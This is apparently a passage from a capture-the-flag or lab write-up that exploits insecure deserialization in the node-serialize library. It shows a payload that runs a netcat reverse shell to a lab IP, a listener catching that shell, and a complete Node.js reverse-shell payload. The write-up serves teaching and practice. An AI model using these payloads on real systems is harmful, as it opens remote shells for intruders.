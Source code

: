 Trying to unserialize the payload locally:

```js
$ node
Welcome to Node.js v12.21.0.
Type ".help" for more information.

> serialize = require('node-serialize');
{ serialize: [Function], unserialize: [Function] }

> serialize.unserialize({"email": "_$$ND_FUNC$$_function() { require('child_process').exec('nc -e /bin/sh 10.11.31.199 9999') }()"});
{ email: undefined }
>
```

Catching the reverse shell:

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.11.31.199] from (UNKNOWN) [10.11.31.199] 44208

lsb_release -a
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2021.1
Codename:       kali-rolling
```

I spent some time making sure everything looked ok, but didn't get it to work. I guess the target didn't have `netcat` installed or something.

Then I finally ended up trying another reverse shell payload:

```js
(function() {
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    
    var client = new net.Socket();

    client.connect(9999, "10.11.31.199", function() {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });

    return /a/;
})();
```


## Working reverse shell payload
